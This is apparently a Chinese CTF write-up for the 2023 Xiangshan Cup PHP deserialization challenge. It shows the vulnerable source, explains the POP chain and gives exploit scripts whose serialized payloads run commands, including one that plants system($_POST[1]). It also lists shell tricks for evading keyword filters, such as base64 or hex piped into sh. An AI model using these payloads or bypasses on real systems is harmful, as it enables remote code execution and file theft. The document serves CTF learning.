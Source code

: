 ```yaml
---
layout: mypost
title: "[香山杯 2023]PHP_unserialize_pro"
categories: [ctf_wp]
---
```


## 前言

香山杯的这道题其实反序列化一眼就能看出pop链，难的可能就是这个正则的绕过方法，多刷题多总结就行了。

## 解题

1.观察源码

![](1.png)

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }
 
    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }
 
    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
 
    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

一步一步来，先找一下危险函数在哪里，很明显就是G00d里面的eval函数，那么想要触发这个函数，就得先触发G00d.invoke（）这个魔术方法。

```
__invoke()：当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用
```

很明显，让令H4ck3r类里面的$func让它等于一个对象就可以，然后这个$function()是在H4ck3r.tostring里面的，要想要触发这个tostring（）函数的话，就是要先到Welcome.destruct()函数，因为正则匹配就是针对于字符串的匹配，把这个要匹配的字符串传成一个对象即可。

```
__toString()：当一个对象被当作一个字符串时使用
```

再看，反序列化的实质就是将字符串转换为对象，虽然也是生成了一个对象，但这个过程确实是不会去触发构造函数的（构造函数只有new才会触发），但是这个对象被销毁的时候，一定是会触发析构函数的，所以这个析构函数所在的类，就是要序列化的对象，序列化这个对象，才可以将各个类联系起来。

pop链

```
__destruct()->__toString()->__invoke() 
```

2.编写exp如下-->

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell = "strtolower";
        public $cmd = 'dir ../../../../../';#查看文件名
        public $cmd = "show_source(chr(47).chr(102).chr(49).chr(97).chr(103));";
        
    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
$a = new Welcome();
$b = new G00d();
$c = new H4ck3r();
$a->name = "A_G00d_H4ck3r";
$a->arg = $c;
$c->func = $b;
echo serialize($a);
?>
```

先用第一步查看根目录下有一个名为f1ag的文件，然后再读取就行了，分别对应着上面两个cmd里面的内容，记得是分别序列化。总结一下flag关键字被过滤还有哪些方法-->

```
反斜线转义 cat fla\g.php

两个单引号做分隔 cat fl''ag.php

base64编码绕过 echo Y2F0IGZsYWcucGhw | base64 -d | sh

hex编码绕过 echo 63617420666c61672e706870 | xxd -r -p | bash

glob通配符 cat f[k-m]ag.php cat f[l]ag.php

?和*

cat f{k..m}ag.php

定义变量做拼接 a=g.php; cat fla$a

内联执行cat echo 666c61672e706870 | xxd -r -p 或 cat $(echo 666c61672e706870 | xxd -r -p) 或 echo 666c61672e706870 | xxd -r -p | xargs cat
```

## 记录

在网上看到另一种写法，具体如下：

```php
<?php  
    class Welcome {  
        public $name;  
        public $arg = 'welcome';  
    }

    class G00d {  
        public $shell;  
        public $cmd;  
    }

    class H4ck3r {  
        public $func;  
    }
    
$h = new H4ck3r();  
$w = new Welcome();  
$g = new G00d();  
$w->name = "A_G00d_H4ck3r";  
$w->arg = $h;  
$h->func = $g;  
$g->shell = "urldecode";  
$g->cmd = "system(\$_POST[1]);";  
echo serialize($w);

//O:7:"Welcome":2:{s:4:"name";s:13:"A\_G00d\_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:9:"urldecode";s:3:"cmd";s:18:"system($\_POST\[1\]);";}}}
```
![](2.png)

还有一点绕过姿势，简单记录

```
 class G00d{
        public $shell = "system";
        public $cmd = 'dir ../../../../../';#查看文件名
        public $cmd = "more /[e-h]1[0-b][e-h]";#1
        public $cmd = "sort /[!q]1[!q][!q]";#2
        public $cmd = "cd /;echo `more dir`";#3
        public $cmd = "cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`";";#4
    }
```

![](3.png)

师傅们确实强ORZ，ORZ。